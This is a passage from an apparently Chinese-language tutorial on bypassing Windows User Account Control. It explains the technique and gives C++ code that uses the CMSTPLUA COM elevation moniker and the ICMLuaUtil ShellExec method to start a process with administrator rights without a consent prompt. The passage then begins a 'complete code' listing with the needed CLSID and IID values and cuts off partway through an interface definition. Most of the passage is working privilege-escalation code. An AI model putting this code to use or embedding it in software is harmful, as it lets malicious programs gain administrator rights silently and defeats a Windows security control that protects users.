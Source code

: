 ```cpp
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;

    // 使用CoGetObject和构造的Moniker字符串来获取或创建COM对象
    // 如果对象不存在，Moniker机制可能会触发对象的创建
    // 函数返回获取的接口指针
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}
```



### 2.调用ShellExec方法

在`CMLuaUtilBypassUAC`函数中，创建了高权限的COM对象并调用其`ICMLuaUtil`接口的`ShellExec`方法，以此启动高权限的进程

```cpp
// 绕过UAC的函数
BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable, LPCTSTR szArg)
{   
	HRESULT hr = 0;  
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;

    // 将字符串转换成CLSID和IID
	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

    // 创建具有管理员权限的COM对象
	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	
    // 调用COM对象中的ICMLuaUtil接口的ShellExec方法
    hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, szArg, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);
    
	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;
	}
}
```



## 完整代码

```cpp
#include "windows.h"
#include <objbase.h>
#include <strsafe.h>


// 定义用于创建COM对象的CLSID和IID
#define CLSID_CMSTPLUA                     L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}"
#define IID_ICMLuaUtil                     L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}"

// 定义ICMLuaUtil接口及其方法
typedef interface ICMLuaUtil ICMLuaUtil;

typedef struct ICMLuaUtilVtbl {
    BEGIN_INTERFACE
```